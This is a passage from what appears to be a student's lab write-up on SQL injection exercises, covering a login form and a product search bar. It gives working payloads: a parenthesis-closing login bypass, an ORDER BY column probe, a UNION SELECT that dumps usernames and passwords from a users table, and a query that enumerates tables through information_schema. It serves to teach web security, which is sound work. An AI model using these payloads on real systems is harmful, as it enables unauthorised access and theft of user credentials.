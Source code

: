  Since the closing parenthisis is also caught in the comment, the query becomes malformed and invalid.
 We can wrok around this by changing our input to:
 ```
 voldemort') -- // 
 ```

Which creates the query:
```
 "SELECT * FROM users where username=('"Voldemort"') -- ') AND password = '.md5($password). 
 ```
Despite the parenthisis still being commented, we still created a valid query by closing the parenthisis pair ourselves!
E Z

### 1.3.3 SQL Injections 1
 For this exercise we're presented with a search bar that allows a user to search for products by partial matching of a string or character.
 The query is made using the following format:
 ```
 "SELECT * FROM products WHERE product_name LIKE '".$query."%' 
 ```
Unfortunately (for the users, but fortunately for us), the query is used without any sort of validation. Noting that there's a closing **%** that the query expects (used to match any product with the substring that preceds the %), we can inject some SQL quite simply by, for example doing the following injection in the Search form:
```
b%' order by 5 -- // 
 ```
This query will show us all the columns returned by the query (that in this case searches for products starting with a **b**), ordered by the 5th column. Note the use of the **%**, without it, the query wouldn't return any product.
This query isn't really all that interesting. Something more fun would be, for example, showing another table from the Database instead, say, the User's table perhaps?
This can be achieved with the following injection:
 ```
'union select null,id,username,password,fname from users -- //  
 ```

Which creates the query:
```
"SELECT * FROM products WHERE product_name LIKE '"" 'union select null,id,username,password,fname from users -- %' 
 ```
This wil change what each column from the table shows, with the fields we specified pulled from the **users** table ! Pretty cool.
But what if we don't know the Database's table's names, and wanna know which tables exist? We can also do that using the injection:
 ```
'union select null,null,null,null,table_name from information_schema.tables -- //  
 ```
 Creating the query:
 ```
"SELECT * FROM products WHERE product_name LIKE '"" 'union select null,null,null,null,table_name from information_schema.tables -- %' 
 ```
Which returns all of the tables that exist in the Database :)
